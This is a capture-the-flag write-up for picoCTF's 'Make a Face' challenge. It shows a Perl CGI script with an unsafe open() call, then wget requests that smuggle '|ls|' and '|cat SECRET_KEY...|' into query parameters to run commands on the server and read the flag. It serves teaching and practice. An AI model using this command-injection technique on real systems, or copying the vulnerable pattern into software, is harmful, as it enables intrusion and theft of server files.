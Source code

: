 Make a Face
===========
Worth: 100 points

The webpage `makeaface.picoctf.com/index.cgi` gives us an output of its source
code in Perl:

```Perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
else {
  print $q->header;

  print $q->start_html(-title=>"Next Generation Avatar Creation",-script=>{'src'=>'/js.js'},-style=>{'src'=>'/css.css'});
  print $q->div(
   $q->h1("Avatar Generator"),
   $q->p("Are you sick and tired of stupid avatars on websites? Are you ready for the next generation of customizable, yet HAND MADE avatars? Then you have come to the right place!"),
   "<video><source src='https://zippy.gfycat.com/DesertedEasygoingArabianwildcat.webm'></source></video><canvas></canvas>",
   $q->start_form(-id=>"frm",-method=>"POOP",-action=>"#",-onchange=>"loadImage()"),
   $q->br(),
   $q->table(
    $q->Tr($q->td([$q->b("Head"),$q->input({-name=>"Head",-type=>'range',-min=>1,-max=>4})])),
    $q->Tr($q->td([$q->b("Hair"),$q->input({-name=>"Hair",-type=>'range',-min=>0,-max=>2})])),
    $q->Tr($q->td([$q->b("Nose"),$q->input({-name=>"Nose",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Mouth"),$q->input({-name=>"Mouth",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Eyes"),$q->input({-name=>"Eyes",-type=>'range',-min=>1,-max=>3})]))
   ),
   $q->end_form
  );
  open SELF, "index.cgi";
  print $q->comment("DEBUG SOURCE\n".do { local $/; <SELF> });
  print $q->end_html();
}
```

Immediately, one notices the use of `open()` in an unsafe manner: the function
takes variables and concatenates them to a string representing the path of
a file to open. So, by using pipes ('|'), we can execute arbitrary programs.

After looking at the JavaScript file embedded on the webpage, we find the
source of the image:

```JavaScript
var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
```

Now we use `wget` from here on to generate requests:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp&Hair=2.bmp&Nose=2.bmp&Mouth=3.bmp&Eyes=2.bmp" -O data
```

We see that we get an image:
![Face](data-image.bmp)

What happens if we try to use pipes? First, an attempt at calling `ls`. We add
a pipe and the command after the `Hair` variable:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp&Hair=2.bmp|ls&Nose=2.bmp&Mouth=3.bmp&Eyes=2.bmp" -O data
```

We get a file, but it's filled with all zeros. Perhaps this is due to the
output of `ls` being ANDed with the outputs of the other files, as is done
in the Perl script:
```Perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```

So instead, we call `ls` for all files:
```Bash
$ wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp|ls|&Hair=2.bmp|ls|&Nose=2.bmp|ls|&Mouth=3.bmp|ls|&Eyes=2.bmp|ls|" -O data
```

The result is:
```Bash
$ cat data
```
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```

This is a list of all files in the directory. We note the interesting file,
`SECRET_KEY_2b609783951a8665d8c67d721b52b0f8`. This looks like it might contain
our flag.

So we then want to invoke `cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` on
the server. To do this, the original command is modified:
```Bash
wget "http://makeaface.picoctf.com/index.cgi?Head=1.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Hair=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Nose=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Mouth=3.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|&Eyes=2.bmp|cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8|" -O data
```

and

```Bash
$ cat data
```

gives us our flag: `why_did_we_stop_using_perl_again?`
